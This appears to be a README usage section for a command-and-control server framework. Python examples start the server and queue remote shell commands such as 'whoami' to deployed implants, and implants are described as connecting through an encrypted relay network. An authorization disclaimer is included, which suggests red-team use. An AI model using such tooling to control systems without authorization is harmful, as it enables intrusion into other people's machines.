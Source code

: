 ## Basic Usage

### Starting the Server
```python
from server import create_server

# Create and start the server
server = create_server(config_path="server_config.yaml")
server.start()

# Access server components
api = server.api
peer_tracker = server.peer_tracker
command_queue = server.command_queue

# Add a command to the queue
command_id = command_queue.add_command(
    implant_id="target-implant-id",
    command_type="shell_exec",
    params={"command": "whoami"}
)

# Get command result
result = command_queue.get_command_result(command_id)
```

### Connecting an Implant
Implants connect to the C2 server through a relay network:

1. Register with the C2 server
2. Establish encrypted communication channel
3. Begin receiving commands and sending responses

**Note:** The use of implants must adhere to strict ethical guidelines and legal boundaries. Implants should only be deployed in environments where you have obtained explicit, written authorization from the system owner or an authorized representative. Unauthorized deployment of implants is a serious violation of ethical standards and legal regulations, potentially resulting in criminal charges, civil liabilities, and reputational damage. Always ensure that your actions comply with applicable laws, organizational policies, and ethical guidelines to avoid unintended consequences or harm.

### Command and Control
Send commands to implants through the server API:

```python
# Add a command to the queue
command_id = server.command_queue.add_command(
    implant_id="target-implant-id",
    command_type="shell_exec",
    params={"command": "whoami"}
)

# Get command result
result = server.command_queue.get_command_result(command_id)
```
